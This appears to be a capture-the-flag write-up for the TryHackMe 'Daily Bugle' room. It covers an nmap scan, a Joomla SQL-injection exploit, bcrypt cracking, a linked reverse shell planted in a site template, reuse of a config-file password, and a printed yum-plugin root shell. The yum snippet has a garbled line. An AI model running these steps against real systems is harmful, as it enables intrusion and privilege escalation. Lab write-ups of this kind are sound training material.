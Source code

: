 [![Needed-nmap](https://img.shields.io/badge/Needed-nmap-blue)](https://nmap.org/)
[![Needed-Gobuster](https://img.shields.io/badge/Needed-Gobuster-orange)](https://github.com/OJ/gobuster)
[![Needed-John](https://img.shields.io/badge/Needed-John-red)](https://github.com/openwall/john)

# Daily Bugle
*Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.*

## Reconnaissance and Enumeration
Let's see what we have today:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ sudo nmap -sC -sV -A 10.10.160.251     
[sudo] password for marco: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-24 21:54 CET
Nmap scan report for 10.10.160.251
Host is up (0.049s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3306/tcp open  mysql   MariaDB (unauthorized)
```

A brief view of the open ports:
- **Port 22**: SSH. No key no party
- **Port 80**: Apache httpd web server. On `robots.txt` there are a lot of disallowed links :)
- **Port 3306**: MariaDB DBSM. Not accessible by our IP address

We run gobuster as usual, just to be sure, but all the useful endpoints are listed in `robots.txt`.

### A check on port 80's secret dirs
The most interesting link in robots.txt is `/administrator`, so it is the first one to be checked out. It contains a Joomla login form, which means that on httpd is running a Joomla instance with the website.<br>
To get Joomla's version we can see the XML manifest at the link `/administrator/manifests/files/joomla.xml`.
<details>
  <summary>Spoiler warning</summary>
    Our is version 3.7.0
</details>

## Hack Joomla
Searching quickly on Google we find very easily that this version is vulnerable to SQL injection [(CVE-2017-8917)](https://www.cvedetails.com/cve/CVE-2017-8917/). A lot of automated exploits are available on the net, I chose [Joomblah](./joomblah.py).<br>
Running Joomblah we can dump the user table. This is the content:
```
['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
```

The long string is the password hash and we need to crack it in order to access the admin panel.

### Hash crack
We can identify the hash with `hashid`: it's a bcrypt, a brute force "resistant" hash. We can still crack it, but it will take some time.
```
┌──(marco㉿DellMarco)-[/mnt/f/kali/TryHackMe/Daily_Bugle]
└─$ john pw.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
...
spiderman123     (?)                                                                                               
1g 0:00:05:23 DONE (2022-03-24 23:32) 0.003094g/s 145.0p/s 145.0c/s 145.0C/s thelma1..setsuna                      
Use the "--show" option to display all of the cracked passwords reliably                                           
Session completed. 
```

### Reverse shell
After gaining access to the admin panel and looking around it becomes obvious that the point of injection is in the template of the site: it's possible to modify the code for php pages directly from the browser!<br>
Obviously we can substitute the index page code with a [reverse shell](./reverse-shell.php). Loading the page will send us a reverse shell.


## Privilege Escalation
Unfortunately the shell is not logged with any user, so we need to escalate our privileges

### No user -> jjameson
Looking around there's seems to be nothing to escalate from here, but we can reed the website configuration file `/var/www/html/configuration.php`. 
This jjameson is a dummy... DB pwd is the same of jjameson account.

<img align="center" src="./NotAtHome.jpg" alt="drawing" style="width:300px;"/>

Entering jjameson account we read user flag :)

### jjameson -> root
Now in jjameson account we need to find a way to escalate to root. Running `sudo -l` we notice that yum is the only executable that we can run with root privileges.
With a little Google Fu, it's easy to find a vuln on [GTFOBins](https://gtfobins.github.io/gtfobins/yum/). With the following code we:
1. create a yum plugin that will spawn a shell
2. enable the plugin
3. run it with root privileges and gain the root shell

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
luginconfpath=$TFEOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

Now the root flag became accessible in `/root/root.txt`